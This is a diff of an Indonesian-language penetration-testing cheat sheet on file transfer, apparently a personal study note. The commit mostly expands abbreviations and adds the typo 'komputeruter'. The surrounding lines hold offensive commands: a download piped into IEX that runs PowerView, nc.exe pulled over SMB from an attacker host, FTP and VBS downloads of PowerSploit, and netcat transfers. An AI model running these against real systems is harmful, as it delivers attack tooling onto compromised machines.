

Before and after one commit to nmwafa/nmwafa.github.io, a Markdown page: notes/file-transfer.md, 2 parts joined by grey strips. Shown at 83% size. Drawn GitHub-style.

`````diff
--- a/notes/file-transfer.md
+++ b/notes/file-transfer.md
@@ -48,27 +48,27 @@ Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
 ````
 
 ### Metode 3: SMB download
-- Server SMB di komputer attacker
+- Server SMB di komputeruter attacker
   ```
   sudo impacket-smbserver share -smb2support /tmp/smbshare
   ```
-- Dari komp target
+- Dari komputer target
   ```
   copy \\<ip>\share\nc.exe
   ```
 - Versi windows baru memblokir akses yang tidak terautentikasi
-- Server SMB di komputer attacker:
+- Server SMB di komputeruter attacker:
   ```
   sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
   ```
-- Dari komp target
+- Dari komputer target
   ```
   net use n: \\192.168.220.133\share /user:test test
   copy n:\nc.exe
    ```
 
 ### Metode 4: FTP download
-- Install server ftp di komp attacker
+- Install server ftp di komputer attacker
   ```
   sudo pip3 install pyftpdlib
   ```
@@ -76,11 +76,11 @@ Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
   ```
   sudo python3 -m pyftpdlib --port 21
   ```
-- Download dari ftp dg powershell
+- Download dari ftp dengan powershell
   ```
   (New-Object Net.WebClient).DownloadFile('ftp://<ip>/file.txt', 'C:\Users\Public\ftp-file.txt')
   ```
-- Membuat ftp interaktif di komp target:
+- Membuat ftp interaktif di komputer target:
   ```
   C:\batagor> echo open <ip> > ftpcommand.txt
   C:\batagor> echo USER anonymous >> ftpcommand.txt
@@ -305,11 +305,11 @@ scp /path-file-yg-diupload username@10.129.86.90:/home/batagor/
         .savetofile WScript.Arguments.Item(1), 2
     end with
     ```
-  - Donlot dengan skrip tadi dari windows
+  - Download dengan skrip tadi dari windows
     ```
     cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
     ```
-- Upload file dg python. jalankan server upload di target
+- Upload file dengan python. jalankan server upload di target
   ```
   python3 -m uploadserver
   ```
@@ -321,18 +321,18 @@ scp /path-file-yg-diupload username@10.129.86.90:/home/batagor/
 <h2 align="center">Metode lain</h2>
 
 #### Menggunakan Netcat (nc) dan Ncat
-- Jalan di komp target
+- Jalan di komputer target
   ```
   nc -l -p 8000 > batagor.exe
   ncat -l -p 8000 --recv-only > batagor.exe
   ```
-- Jalan di komp attacker (-q 0 artinya tutup koneksi setelah selesai)
+- Jalan di komputer attacker (-q 0 artinya tutup koneksi setelah selesai)
   ```
   nc -q 0 <ip> 8000 < batagor.exe
   ncat --send-only <ip> 8000 < batagor.exe
   ```
-#### Kirim file sebagai input dg netcat dan ncat
-- Di komp attacker
+#### Kirim file sebagai input dengan netcat dan ncat
+- Di komputer attacker
   ```
   sudo nc -l -p 443 -q 0 < batagor.exe
   sudo ncat -l -p 443 --send-only < batagor.exe
`````
Also changed, not shown: other parts of notes/file-transfer.md (+28 -28 lines).
